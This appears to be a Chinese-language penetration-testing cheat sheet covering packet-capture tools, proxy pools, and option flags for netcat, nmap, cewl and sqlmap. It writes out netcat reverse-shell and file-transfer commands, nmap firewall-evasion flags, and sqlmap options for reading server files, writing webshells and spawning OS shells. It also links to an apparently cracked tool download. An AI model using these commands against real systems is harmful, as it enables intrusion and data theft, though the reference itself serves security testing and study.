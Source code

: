 ```yaml
---
title: 渗透常用软件及命令
categories:
  - 渗透
  - 软件
date: 2024-12-18 21:52:57
---
```


# Windows平台

### 抓包软件

> 科来网络分析系统——适合抓取PC游戏类的TCP 包，Http包

> 封包监听工具

> wireshark——流量监控软件

> Burpsuite——适合抓取浏览器的http包

> proxifier——适合抓取PC EXE的包

| 软件      | 下载地址                                       |
| --------- | ---------------------------------------------- |
| Burp      | https://www.52pojie.cn/thread-1544866-1-1.html |
| ONE-FOX   | https://pan.quark.cn/s/856a1c07b48b            |
| CN_Sqlmap | https://github.com/BugFor-Pings/CN_Sqlmap      |

### 代理池

https://github.com/jhao104/proxy_pool

https://github.com/Python3Webspider/ProxyPool

# Linux平台

## nc（netcat）

### 支持协议

1. TCP
2. UDP

### 常用命令

```sh
nc	-l  ## 开启监听  nc -lvvp 9000
	-p	## 指定端口
	-e  ## 程序重定向
	-n  ## 以数字的形式表示IP
	-v  ## 显示执行命令过程
	-z  ## 不进行交互，直接显示结果
	-u  ## 使用UDP协议进行传输
	-w  ## 设置超时时间
```

### 使用场景

#### 传输文本信息--电子取证

```sh
## a设备
nc -lp 4444 > 1.txt

## b设备
ls | nc -nv 192.168.0.1 4444

## 结果可以传输到另一台设备上的1.txt文件中
```

#### 端口扫描

```sh
nc -nvz  192,168.0.1 0-65535 ##数字IP，显示信息，不交互，容易被防火墙拦截
```

#### 传输文件

```sh
## <：发送
## >：接收
## >>：追加

发送：nc -nv 192.168.0.1 4444 < 1.txt
接收：nc -lvvp 4444 > log.txt
```

#### 反向连接

```sh
nc -lvvp 4444 ## 开启监听

nc -e cmd 192.168.0.1 4444  		## windows
nc -e /bin/bash 192.168.0.1 4444 	## linux
```

## Nmap（开源网络扫描工具）

### 使用场景

```sh
## 主机发现
nmap	-sP		## ping扫描
		-P0		## 固定ping
		-PR		## ARP ping
		-n		## 不进行域名解析
## 端口扫描
		-sS 	## 开启防火墙也可以扫描
		-p		## 指定端口
		-F		## 快速扫描默认1200多个端口
		-R		## 不随机扫描
## 版本探测
		-sV 	## 版本探测
		-O		## 操作系统版本探测
## 绕过
		-Pn 	## 绕过防火墙
		-f  	## 分包
		-D RND:10 ## 诱饵隐蔽扫描
## 输出
		-oN 	
		-T 0-5
## 脚本
		--script=vuln ## 扫描所有漏洞
```

## Fuzz（字典）

### Cewl（基于爬虫爬取网页，不太实用）

```sh
cewl url [option]
		 -d 	## 爬行深度
		 -m 1 	## 几位数的数据爬取
		 -e 	## 包含邮箱地址
		 -n		## 不输出字典
		 --lowercase	## 转为小写字母
		 --auth_tpye   	## Digest | basic
		 --auth_user	## 用户名
		 --auth_pass	## 密码
		 --proxy_host	## 代理iP
		 --proxy_port	## 代理端口
```

### xhydra（密码爆破）有图形化界面

![xhydra](https://free-img.400040.xyz/4/2024/12/18/6762ba98a368f.png)

## SqlMap

```bash
python sqlmap.py -u "http://xxx.com/"  ## 攻击目标
				 --update				## 更新脚本
				 --current-user			## 获取当前数据库用户
				 --current-db			## 获取当前数据库名称
				 -D						## 指定数据库
				 --tables				## 获取数据库表
				 --T					## 指定表名
				 --batch				## 默认设置
				 --smart				## 只有在启发式检测时才进行彻底的测试
				 --level=3				## 检测请求头 1-5 3检测请求头
				 --risk=2				## 测试级别 1-3，3可能会删库
				 --dbs					## 获取所有的数据库
				 --data=“”				## 使用post发送
				 -r	c:\\port.txt		## 读取文件扫描
				 -p	password			## 指定字段
				 --forms				## 解析并测试url中的表单
				 --file-read=“d:\\port.txt”		## 读取服务器上的文件
				 --file-write="d:\\data.php"	## 要写入的文件名
				 --file-dest="d:\\data.php"		## 写入文件到路径
				 --os-webshell					## 写webshell
				 --os-shell						## 调用交互式操作系统shell
				 --os-subrelay					## 一键调出shell
				 --proxy=http://127.0.0.1:10809		## 使用代理进行
				 --random-agent			## 使用随机user-agent
				 --flush-session		## 清空当前目标的会话文件
				 --mobile				## 模仿手机ua头
				 --delay=1000			## 配置延迟秒数
				 --cookie=xxx			## 携带cookie进行测试
				 --tamper xxxx.py,xxx.py	## 调用脚本
				 --no-cast					## 关闭默认payload构造
				 --technique=BE				## 指定哪种注入方式进行注入
				 --m xxx.txt				## 批量测试指定目标，可以写入命令
				 
服务端API：为了实现多线程
				 --sqlmapapi.py	-s -c		## 服务端与客户端
				 -H 192.168.0.0	-p 6666		## 指定服务端IP
				 -h							## 帮助文档
				 new 'http://xxx.com' -dbs	## 进行注入
				 data						## 查结果
				 list						## 查执行列表
burp CO2
				 安装要注意配置路径的空格，有空格加""
```

## Yakit（漏洞扫描工具）

## social engineering toolkit(XSS获取cookie工具)

## dirb（路径扫描）

## Seay源码审计系统

### 随波逐流CTF编码工具（图片隐写）
